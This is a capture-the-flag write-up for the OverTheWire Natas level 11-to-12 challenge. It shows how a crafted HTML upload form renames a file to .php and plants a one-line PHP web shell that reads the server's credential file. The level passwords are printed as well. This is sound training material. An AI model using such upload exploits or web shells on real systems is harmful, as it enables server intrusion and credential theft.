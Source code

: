 # [Level 11 to 12](https://overthewire.org/wargames/natas/natas12.html) - Exploit file upload

- Login
```
URL: http://natas12.natas.labs.overthewire.org
Username: natas12
Password: yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
```
- Exercise:
![image](https://github.com/user-attachments/assets/bc198088-c94a-4f8c-9bc0-617bda87fc74)
![image](https://github.com/user-attachments/assets/b98e4e20-afb9-40de-93e8-8192a2cad313)

- Background:
- Solution:
  - Save the following as file `natas12_form.html`: 
  ```html
  <html>
  <form enctype="multipart/form-data" action="http://natas12.natas.labs.overthewire.org/index.php" method="POST">
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
  <input type="hidden" name="filename" value="natas12_getpass.php" />
  Choose a JPEG to upload (max 1KB):<br/>
  <input name="uploadedfile" type="file" /><br />
  <input type="submit" value="Upload File" />
  </form>
  </body>
  </html>
  ```
    - Submits a file upload request to the webserver's upload handler `index.php`
    - Telling the server to save the uploaded file as `natas12_getpass.php`
  - Save the following as file `natas12_getpass.php` and load it into `natas12_form.html`:
  ```php
  <?php
  system("cat /etc/natas_webpass/natas13")
  ?>
  ```
  ![image](https://github.com/user-attachments/assets/8bf24710-50dd-4eff-bf94-b84b81aa890d)
  ![image](https://github.com/user-attachments/assets/40f6d645-2567-4c56-86a2-76a2f2465d93)
  ![image](https://github.com/user-attachments/assets/f8d0abd9-b252-44be-b4b9-aac9f27389a0)

- Password: `trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`
